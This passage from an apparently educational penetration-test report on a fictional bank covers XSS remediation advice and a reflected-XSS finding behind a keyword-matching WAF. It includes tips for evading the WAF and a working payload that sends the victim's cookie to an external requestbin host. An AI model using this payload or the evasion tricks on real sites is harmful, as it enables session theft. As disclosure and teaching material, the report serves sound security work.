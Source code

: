 User input must be sanitised both from both the client side and the server side. Implement a whitelist to sanitise user input, ideally, through a well supported framework such as `jsoup` or library such as `DOMPurify`. Ensure that any user input is inserted into the DOM as text rather than raw HTML. Furthermore, it is recommended that a strict CSP is in place to stop the execution of untrusted JavaScript. To avoid session cookies being stolen, set cookies to be `HttpOnly` to mitigate QuoccaBank admins affected by this reflected XSS.

## P3 MEDIUM - Reflected XSS in Comment Filter behind WAF
**Asset Domain:** science-tomorrow.quoccabank.com via ctfproxy2.quoccabank.com

**Severity Classification:** P3 - Medium Risk

### Vulnerability Details

A reflected XSS vulnerability exists in the comment filtering system for the `science-tomorrow` blog which is almost identical to the reflected XSS vulnerability in `science-today.quoccabank.com`. 

### Proof of Concept / Steps to Reproduce

See the Proof of Concept for the reflected XSS vulnerability in `science-today`. 

1. Some adjustments must be made to contend with a new obstacle with the flawed "HackShield" WAF implemented at the `ctfproxy2` level.  The WAF uses simple term matching to block what it sees as malicious requests. These rules can be easily evaded by taking advantage of lesser known "malicious" Javascript constructs such as `eval(window.atob())` or `location.href`.

2. Otherwise, exploitation follows exactly as in `science-today` which allows us to leak the `query-flag` cookie by using the following payload and reporting the filtered page.

   ```html
   <img src="x" onerror="location.href='http://requestbin.net/r/gngcllan?c='+btoa(document.cookie)"></img>
   ```

![](./images/Pasted%20image%2020210806163815.png)

### Impact
